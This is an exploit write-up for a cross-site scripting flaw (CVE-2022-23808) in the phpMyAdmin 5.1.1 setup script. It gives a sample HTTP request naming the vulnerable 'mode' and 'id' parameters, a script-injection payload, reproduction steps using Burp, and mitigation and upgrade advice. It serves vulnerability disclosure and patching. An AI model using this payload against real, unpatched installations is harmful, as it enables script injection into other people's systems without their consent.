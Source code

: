 # phpMyAdmin Exploit

**Exploit Title :** phpMyAdmin 5.1.1 - XSS (Cross-site Scripting)                                                          
**Exploit Author :** [Dipak Panchal](https://twitter.com/DipakPanchal05) **([@th3.d1p4k](https://instagram.com/th3.d1p4k))**                 
**Vendor Homepage :** https://www.phpmyadmin.net                      
**Software Link :** https://www.phpmyadmin.net/files/5.1.1/                 
**Affected Versions :** phpMyAdmin versions of the 5.1 branch prior to 5.1.2 are affected.                
**Tested on :** Windows 10 and Linux    
**CVE :** [CVE-2022-23808](https://nvd.nist.gov/vuln/detail/CVE-2022-23808)       
**Reference :** https://www.phpmyadmin.net/security/PMASA-2022-2/         

### **Description:**
A series of weaknesses has been discovered that could allow an attacker to inject malicious code in to aspects of the setup script, which can allow XSS or HTML injection.

### **Request:**

```
GET /phpmyadmin/setup/index.php?page=servers&mode=test&id=test  HTTP/1.1      
Host: 127.0.0.1:1234       
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0      
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8      
Accept-Language: en-US,en;q=0.5     
Connection: close   
Cookie: pma_lang=en; phpMyAdmin=fs55xxxxxxx; pma_lang=en; pmaUser-1=xxxxxxxxxxxxxxxxxxxxxxxxxxx; phpMyAdmin=xxxxxxxxxxxxxxx; pmaAuth-1=xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx           
Upgrade-Insecure-Requests: 1          
Cache-Control: max-age=0          
```

### **Vulnerable Parameter(s) :** 
* mode
* id

### **Payload :**
```
">'><script>alert(document.domain)</script>
```

### **Steps to reproduce :**

1. Capture above reuqest in burp.
2. Replace/Change XSS payload with vulnerable parameters.
3. Click on send and show response in browser.
4. You'll get popup!

## **Proof of Concept :**
![2022-01-26_21h45_23](https://user-images.githubusercontent.com/31427462/152356009-88cb5947-6abf-481f-9cc1-58c8cf4a6a12.png)


### **Mitigation :**
A phpMyAdmin installation with a configuration file config.inc.php will not allow access to the setup script, which in turn mitigates this attack.


### **Fix :**
Upgrade to phpMyAdmin 5.1.2 or newer or apply patch listed below.
